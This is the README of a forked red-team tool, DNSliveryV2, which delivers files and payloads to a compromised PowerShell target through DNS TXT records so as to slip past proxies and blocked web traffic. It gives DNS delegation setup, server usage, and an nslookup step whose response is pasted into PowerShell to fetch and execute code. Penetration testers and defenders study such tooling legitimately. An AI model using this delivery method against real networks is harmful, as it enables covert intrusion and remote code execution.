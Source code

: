 ![python-3.7](https://img.shields.io/badge/python-3.7-blue.svg)
[![Known Vulnerabilities](https://snyk.io/test/github/no0be/DNSlivery/badge.svg?targetFile=requirements.txt)](https://snyk.io/test/github/no0be/DNSlivery?targetFile=requirements.txt)

# DNSliveryV2
## Note
I give all credit to the original author for their work. I will be adding documentation and additional features. Since I saw old PULL requests (3+ years), I decided to make my own fork. 

## Old Documentation 
Easy files and payloads delivery over DNS.

- [DNSlivery](#dnslivery)
- [Acknowledgments](#acknowledgments)
- [Description](#description)
  - [TL;DR](#tldr)
  - [What problem are you trying to solve?](#what-problem-are-you-trying-to-solve)
  - [How does it work?](#how-does-it-work)
  - [Requirements](#requirements)
- [Setup](#setup)
  - [DNS Zone](#dns-zone)
  - [DNSlivery](#dnslivery-1)
- [Usage](#usage)
  - [Server](#server)
  - [Target](#target)

# Acknowledgments
This project has been originally inspired by [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) and [Joff Thyer](https://twitter.com/joff_thyer)'s technical segment on the Paul's Security Weekly podcast #590 ([youtu.be/CP6cIwFJswQ](https://youtu.be/CP6cIwFJswQ)).

# Description
## TL;DR
DNSlivery allows to deliver files to a target using DNS as the transport protocol.

**Features**:
- allows to print, execute or save files to the target
- does not require any client on the target
- does not require a full-fledged DNS server

![demo-target.git](img/demo-target.gif)

## What problem are you trying to solve?
Easily deliver files and/or payloads to a compromised target where classic web delivery is not possible and **without the need for a dedicated client software**. This applies to restricted environments where outgoing web traffic is forbidden or simply inspected by a curious web proxy.

![web-delivery-blocked.png](img/web-delivery-blocked.png)

Even though more complete DNS tunneling tools already exist (s.a. [dnscat2](https://github.com/iagox86/dnscat2) and [iodine](https://code.kryo.se/iodine/)), they all require to run a dedicated client on the target. The problem is that there is probably no other way then DNS to deliver the client in such restricted environments. In other words, building a DNS communication channel with these tools require to already have a DNS communication channel.

In comparison, DNSlivery only provides one-way communication from your server to the target but does not require any dedicated client to do so. Thus, if you need to build a reliable two-way communication channel over DNS, use DNSlivery to deliver the client of a more advanced DNS tunneling tool to your target.

## How does it work?
Just like most DNS tunneling tools, DNSlivery uses `TXT` records to store the content of files in their base64 representation. However, it does not require to setup a full-fledged DNS server to work. Instead, it uses the [scapy](https://scapy.net/) library to listen for incoming DNS packets and craft the desired response. 

![network-process.png](img/network-process.png)

As most files do not fit in a single `TXT` record, DNSlivery will create multiple ordered records containing base64 chunks of the file. As an example, the above diagram illustrates the delivery of the 42<sup>nd</sup> chunk of the file named `file`.

In order to retrieve all base64 chunks and put them back together without the need for a dedicated client on the target, DNSlivery will generate for every file:

- a simple cleartext launcher
- a reliable base64 encoded stager

![two-stages-delivery.png](img/two-stages-delivery.png)

This two-stages delivery process is required to add features to the stager (s.a. handling lost DNS responses) that would otherwise not fit in a single `TXT` record.

### Note on target compatibility
Currently, only PowerShell targets are supported. However, DNSlivery could be improved to support additional targets such as bash or python. Please let me know [@no0be](https://twitter.com/no0be) if this is a feature that you would like to see being implemented.

## Requirements
DNSlivery does not require to build a complex server infrastructure. In fact, there are only two simple requirements: 

- be able to create a `NS` record in your public DNS zone
- have a Linux server capable of receiving `udp/53` traffic from the Internet

# Setup
## DNS Zone
The first step is to delegate a sub-domain to the server that will run DNSlivery by creating a new `NS` record in your domain. As an example, I created the following record to delegate the sub-domain `dnsd.no0.be` to the server at `vps.no0.be`.

```
dnsd    IN  NS vps.no0.be.
```

If your zone is managed by a third-party provider, refer to their documentation to create the `NS` record.

## DNSlivery
The only requirements to run DNSlivery are `python3` and its `scapy` library.
```bash
git clone https://github.com/no0be/DNSlivery.git && cd DNSlivery
pip install -r requirements.txt
```

# Usage
## Server
DNSlivery will serve all files of a given directory (`pwd` by default) and needs to be **run with root privileges** to listen for incoming `udp/53` packets.

```
usage: dnslivery.py [-h] [-p PATH] [-s SIZE] [-v] interface domain nameserver

DNSlivery - Easy files and payloads delivery over DNS

positional arguments:
  interface             interface to listen to DNS traffic
  domain                FQDN name of the DNS zone
  nameserver            FQDN name of the server running DNSlivery

optional arguments:
  -h, --help            show this help message and exit
  -p PATH, --path PATH  path of directory to serve over DNS (default: pwd)
  -s SIZE, --size SIZE  size in bytes of base64 chunks (default: 255)
  -v, --verbose         increase verbosity
```

**Example**: 
```
$ sudo python3 dnslivery.py eth0 dnsd.no0.be vps.no0.be -p /tmp/dns-delivery

DNSlivery - Easy files and payloads delivery over DNS

[*] File "file" ready for delivery at file.dnsd.no0.be (7 chunks)
[*] Listening for DNS queries...
```

### Note on filename normalization
As the charset allowed for domain names is much more restrictive than for UNIX filenames (per [RFC1035](https://tools.ietf.org/html/rfc1035#section-2.3.1)), DNSlivery will perform normalization when required.

**Example**:
```
[*] File "My Awesome Powershell Script ;).ps1" ready for delivery at my-awesome-powershell-script----ps1.dnsd.no0.be (1891 chunks)
```

**Be aware that the current normalization code is not perfect as it does not take overlapping filenames or size limit into account.**

## Target
On the target, start by **retrieving the launcher** of the desired file by requesting its dedicated `TXT` record. The following three launchers are supported:

| Action  | Launcher                    | Description                                           |
| ------- | --------------------------- | ----------------------------------------------------- |
| Print   | `[filename].print.[domain]` | (**Default**) Print the delivered file to the console |
| Execute | `[filename].exec.[domain]`  | Execute the delivered file (useful for scripts)       |
| Save    | `[filename].save.[domain]`  | Save the delivered file to disk (useful for binaries) |

```cmd
nslookup -type=txt [filename].[stager].[domain]
```

Then, simply **copy and paste the launcher quoted in the DNS response to a PowerShell console** to retrieve the file on the target.

**Example**:

![demo-target.git](img/demo-target.gif)
